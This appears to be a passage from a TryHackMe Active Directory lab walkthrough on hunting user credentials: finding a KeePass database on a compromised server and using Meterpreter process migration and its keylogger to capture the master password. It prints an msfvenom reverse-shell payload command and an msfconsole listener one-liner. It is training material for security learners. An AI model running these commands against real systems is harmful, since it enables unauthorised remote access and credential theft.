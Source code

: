 ### Users and User Behavior

_The factory of the future will only have two employees. A human and a dog. The human will be there to feed the dog. The dog will be there to bite the human if they try to touch something. - Warren Bennis_

Users are, unfortunately, often the weakest link in the security chain. Just think about weak passwords and bad habits, such as granting overly permissive permissions. It would be ignorant and ineffective to overlook this attack surface. While it is good to build up a proper enumeration and attack methodology against AD users, in this task, we will focus on two elements:

* Credential Management - How users store their credentials. In AD, this is quite important since users may have multiple sets of credentials and remembering all of them can be a hassle.
* Keylogging - Often, during exploitation, we need to understand how normal users interact with a system. Together with screengrabs, Keylogging can be a useful tool to gain this understanding from an attacker's perspective.

### Hunting for Credentials

Now that we have compromised THMSERVER1, we should probably look around to see if there is any useful information. Have a look at the user directories and see if there is some useful information in any of them.

Your enumeration efforts should lead you to a .kdbx file. A quick Google should confirm our suspicion that this file is indeed very valuable! We can use Meterpreter's download command to recover this file.

This file seems to be a credential database. The issue, however, is that the database is encrypted with a password. We could attempt to crack the password, but anyone who uses a credential database usually has the savvy to make sure the initial password is secure. We may have more success seeing how the user interacts with this database.

### SYSTEM is Sometimes Too Privileged

Meterpreter has a built-in keylogger. This will be useful for extracting the user's keystrokes. However, we can't just start this keylogger and hope for the best since our shell is currently running in the SYSTEM context. SYSTEM won't be typing any keystrokes, so this won't help us. To capture the correct user's credentials, we will need to ensure that our shell is running in the context of that user.

Fortunately, Meterpreter provides us with a migrate feature, and since we are running as SYSTEM, we should be able to migrate to any process. You have remote code execution on THMSERVER1, use this to get a Meterpreter shell. If you need a recap on using Meterpreter and Metasploit, [here is a module on its use.](https://tryhackme.com/module/metasploit) However for a quick rundown, you can use the following command to generate a PowerShell meterpreter payload:

`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=exploitad LPORT="Listening port" -f psh -o shell.ps1`

You can then also use the following to create the associated listener in the msfconsole:

`sudo msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_tcp; set LHOST exploitad; set LPORT "listening port'; exploit"`

You can host your meterpreter shell using a Python webserver and then copy it using something like this:
